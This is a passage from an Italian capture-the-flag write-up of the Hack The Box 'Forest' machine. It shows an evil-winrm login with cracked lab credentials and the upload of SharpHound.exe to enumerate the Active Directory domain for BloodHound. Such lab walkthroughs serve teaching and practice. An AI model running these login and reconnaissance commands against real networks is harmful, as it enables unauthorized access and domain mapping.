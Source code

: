 ## Exploitation
Per loggarmi come admin utilizzo lo script _WinRM_:

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

<p align="center">
  <img src="/Immagini/Windows-Box/Forest/forest-3.png"/>
</p>

**Ottengo cosi il primo flag!**

## Privilege Escalation

Ora utilizzo [BloodHound](https://www.stationx.net/how-to-use-bloodhound-active-directory/) per avere un quadro completo del dominio.

Per prima cosa carico il file _SharpHound.exe_ sulla macchina vittima tramite il seguente comando (sempre attraverso _WinRM_):

```bash
upload /home/kali/HTB/windows/toolkit/SharpHound.exe C:\Users\svc-alfresco\Documents\SharpHound.exe
```

Successivamente, lo eseguo generando un file zip che trasferisco sulla mia macchina per poi caricarlo su _BloodHound_:

<p align="center">
  <img src="/Immagini/Windows-Box/Forest/forest-4.png"/>
</p>
